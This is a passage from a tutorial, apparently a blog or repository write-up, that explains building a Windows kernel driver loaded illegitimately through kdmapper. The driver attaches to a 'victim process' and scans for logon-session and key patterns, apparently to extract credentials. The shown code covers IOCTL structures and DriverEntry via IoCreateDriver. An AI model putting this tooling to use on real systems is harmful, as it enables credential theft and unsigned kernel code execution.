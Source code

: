 ```c
}
```

Here we define a list of IOCTL codes using the `CTL_CODE` macro.  Each action gets a unique number, and depending what code we pass to the driver, we can map a different function on the receiving end to run in kerneland.

```c
struct Patterns {
	PVOID pLogonSessionListPattern;
	PVOID pKeysPattern;
};
struct Request {
	HANDLE hPID; //
	PVOID pTargetMemory; //victim process
	PVOID pBuffer;
	SIZE_T sSize;
	SIZE_T sReturn_size;
	PVOID pBase;
	PVOID pEnd;
	Patterns Patterns;
};
...
...
...
bool attachToProcess(const DWORD PID, HANDLE hDriver) {
	Request req;
	req.hPID = (HANDLE)(PID); //because the function in kernel land wants a handle of the PID...
	return DeviceIoControl(hDriver, codes::attach, &req, sizeof(req), &req, sizeof(req), nullptr, nullptr);
}
```

Passing data to and from a driver can be cumbersome, so it makes more sense to define a structure to hold off the data that we want going to from the driver so we only need to work with one variable as opposed to multiple IOCTL calls since we can really only return one data structure at a time.


Then on driver's side we start off in `DriverEntry()`.  This is like `main()` in traditional programs.

```c
//kdmapper calls DriverEntry
NTSTATUS DriverEntry() {
	//Drivers dont like const char* , they like UNICODE_STRING.  Use this method to initialize.
	UNICODE_STRING uDriverName = {};
	//Name must be \\Driver\\<WHATEVER>
	RtlInitUnicodeString(&uDriverName, L"\\Driver\\noah");
	return IoCreateDriver(&uDriverName, DriverMain); 
}
```
Because our driver is being loaded illegitimacy through kdmapper, we need a way of creating a Driver handle, registry paths, doing all of the backend work that Windows would normally do.   `IoCreateDriver` handles all of that for us, making a new driver (of type  `DRIVER_OBJECT`) with the name of your choice, and then entering  the `DriverMain()` function.
